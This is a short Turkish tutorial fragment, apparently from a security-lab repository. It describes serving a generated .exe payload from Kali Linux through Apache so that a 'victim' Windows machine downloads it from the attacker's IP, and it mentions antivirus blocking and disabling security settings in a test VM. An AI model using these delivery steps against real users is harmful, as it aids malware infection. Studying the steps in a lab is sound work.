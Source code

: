 - ⚠️ `.exe` dosyası antivirüs tarafından engellenebilir ❌  
- 🚪 Windows’a aktarmak için birkaç yöntem vardır → en basitlerinden biri **web sunucusu açmak** 🌐  

### 📂 Dosyayı Web Sunucusuna Taşımak
- Kali Linux’ta **web sunucu klasörü**: `/var/www/html`  
- 🎯 Exe dosyasını buraya taşı:  
```bash
mv <dosya_adi>.exe /var/www/html/
```

### 🚀 Apache Web Sunucusunu Başlatmak
```bash
service apache2 start
```
- 🔥 Bu komut ile yerel ağda web yayını başlar  

### 🌐 Dosyaya Erişmek
- Tarayıcıya saldırganın IP adresini yaz:  
```
http://<ip_adresi>/<dosya_adi>.exe
```
- 💾 Böylece `.exe` dosyasının indirme bağlantısına ulaşılır  

### ⚠️ Dikkat!
- Kurbanın tarayıcı ve işletim sistemi güvenlik ayarları açıkken dosya inmeyebilir 🛡️  
- 🧪 Test için **sanal makinede güvenlik ayarları kapatılmalıdır**  
